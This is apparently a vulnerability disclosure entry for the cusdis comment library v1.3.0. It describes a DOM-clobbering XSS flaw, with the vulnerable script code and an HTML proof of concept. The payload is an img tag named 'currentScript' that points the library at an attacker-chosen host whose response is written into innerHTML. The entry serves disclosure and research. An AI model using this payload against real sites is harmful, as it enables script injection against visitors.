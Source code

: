 ## cusdis

### Meta

+ Library: cusdis
+ Stars: 2.6K
+ Version: v1.3.0
+ Payload: ```<img name="currentScript" data-host="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported(MITRE)
+ Foundby: TheHulk


### Library

https://github.com/djyde/cusdis


### Vulnerable Code Snippet

```javascript
async function n() {
  const e = document.currentScript || document.querySelector("#for-testing")
    , {appId: n, host: r} = e.dataset
    , a = r || "https://cusdis.com"
    , o = document.querySelectorAll("*[data-cusdis-count-page-id]")
    , i = Array.from(o).map((e => e.dataset.cusdisCountPageId))
    , s = await t.get(`${a}/api/open/project/${n}/comments/count`, {
      params: {
          pageIds: i
      }
  });
  Array.from(o).forEach((e => {
      e.innerHTML = s.data.data[e.dataset.cusdisCountPageId]
  }
  ))
}
```

### PoC
```html

<!--Library-->
<span data-cusdis-count-page-id="XXX-YYY-ZZZ">0</span> comments
<div id="cusdis_thread"
  data-host="https://cusdis.com"
  data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22"
  data-page-id="XXX-YYY-ZZZ"
  data-page-url="XXX"
  data-page-title="XXX"></div>
</div>
<script async defer src="https://cusdis.com/js/cusdis.es.js"></script>
<script defer data-host="https://cusdis.com" data-app-id="c157400c-80eb-4dca-acc7-3cd342adfb22" src="https://cusdis.com/js/cusdis-count.umd.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" data-host="https://xxx.xxx.xxx">
<!--Payload-->
```